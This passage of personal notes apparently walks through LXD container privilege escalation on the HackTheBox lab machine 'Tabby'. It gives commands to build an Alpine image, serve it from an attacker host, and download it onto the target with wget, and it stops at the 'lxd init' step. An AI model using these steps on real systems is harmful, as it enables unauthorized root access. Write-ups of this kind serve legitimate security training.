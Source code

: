 ![[Pasted image 20240301190328.png]]

LXC exploitation is done by creating a container and then mounting the full root file system on the target machine into that container - giving full access to it.

## Escalate Privilege with LXD

\# Download `build-alpine` to attacker machine from github repo

```
git clone https://github.com/saghul/lxd-alpine-builder.git
```

\# change directory

```
cd lxd-alpine-builder
```

\# execute the script to build alpine using root privileges

```
sudo ./build-alpine
```

![[Pasted image 20240301192041.png]]

\# `ls` to show that the `.tar.gz` package has been created

![[Pasted image 20240301192421.png]]

This `tar.gz` package contains the files necessary to make an Alpine Linux container. This file now needs to be transferred to the Tabby host machine.

This is done by running a webserver so that the Tabby machine can get the file from me:

\# Creating a Python webserver on my attacker machine

```
python3 -m http.server 2000
```

![[Pasted image 20240301193046.png]]

\# Tabby machine downloading the `tar.gz` package:

```
wget 10.10.14.3:2000/alpine-v3.13-x86_64-20210218_0139.tar.gz
```

![[Pasted image 20240301193112.png]]

Trying to import the image into `lxc` now throws an error and suggests that we first need to run `lxd init` in order to fix this:

![[Pasted image 20240301193418.png]]

When running `lxd init` just allow all default values by pressing `[ENTER]`.
